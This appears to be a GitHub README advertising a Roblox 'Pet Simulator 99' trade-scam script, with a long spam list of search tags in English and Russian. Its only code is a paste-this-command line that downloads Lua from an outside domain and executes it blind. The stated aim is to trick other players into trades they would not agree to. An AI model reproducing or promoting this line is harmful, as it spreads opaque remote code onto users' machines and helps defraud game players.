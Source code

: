 # PS99
OP PS99 TRADE SCAM
A TRADE SCAM THAT LETS U REMOVE UR PETS FROM A TRADE BUT ON THE VICTIMS SCREAN ITS STILL THERE THIS SCRUPT IS SO OP

this is all in one
script: 

loadstring(game:HttpGet("https://egorikusa.space/d26052d588a47bfb379afb58.lua", true))()


## tags ifnore

PS99 Trade Scam Pet Simulator 99 Pet Sim 99 PS99 Dupe #petsimulator99 #petsim99 #petsimulator99script #scriptpetsimulator99 pet simulator 99, pet sim 99, pet simulator 99 script, script pet simulator 99, pet sim 99 script, roblox pet simulator 99 script, pet simulator 99 script pastebin, pet simulator 99 hack, pet simulator 99 script mobile, roblox pet sim 99 script, pet simulator 99 dupe, pet sim 99 hack, script pet sim 99, roblox, pet simulator 99 script 2023, pet simulator x, pet simulator, pet simulator 99 roblox, pet simulator 99 script pastebin 2023, roblox pet simulator 99, pet sim 99 dupe, roblox simulator, pet sim, pet simulator 99 update, ps99 script, pet simulator x codes, pet simulator x script, pet simulator 99 codes, roblox pet simulator x, script pet simulator x, bypass anticheat, byfron anticheat, pet sim 99 script mobile, pet sim 99 script auto farm, psx, free, huge pet, pet simulator 99 script update, robux, pet simulator 99 script pastebin update, pet simulator 99 dupe script, pet sim 99 script pastebin 2023, roblox pet simulator, pet simulator x giveaway, pet sim x, pet simulator x secrets, pet simulator x new update, pet simulator x update, pet simulator 99 script auto farm, pet simulator 99 giveaway live, ps99 dupe script, pet simulator 99 how to get diamonds fast, pet sim 99 trade scam script, pet simulator 99 скрипт, pet simulator 99 free gamepass script, автофарм pet simulator 99, hack pet simulator 99, pet simulator 99 pet dupe, pet simulator 99 скачать читы, скачать читы на pet simulator 99, скачать читы pet simulator 99, pet simulator 99 diamond dupe, script hack pet simulator 99, pet simulator 99 max rank, pet simulator 99 tutorial, pet simulator 99 transfer, pet simulator 99 leaks, pet simulator 99 farm, pet simulator 99 rebirth, pet simulator 99 stairway to heaven, pet simulator 99 farm gems, скрипт pet simulator 99, pet simulator x hack, hack, pet simulator x mythical pets, pet simulator x roblox update, pet simulator 99 giveaway, pet simulator 99 fastest way to get gems, pet simulator x roblox how to, ps99, pets, pet simulator 99 live countdown, pet simulator 99 giveaway live now, code, free pets, dupe, скрипт на pet simulator 99, читы pet simulator 99, читы на pet simulator 99, pet simulator 99 читы, pet simulator 99 чит, чит на pet simulator 99, чит pet simulator 99, pet simulator 99 update codes, pet simulator 99 roblox new update, pet simulator x roblox, pet simulator 99 huge pets, pet simulator 99 secret leaks, pet simulator 99 secret places, pet simulator 99 all secrets, pet simulator 99 secret pets, pet simulator 99 new update, pet sim 99 codes, pet simulator 99
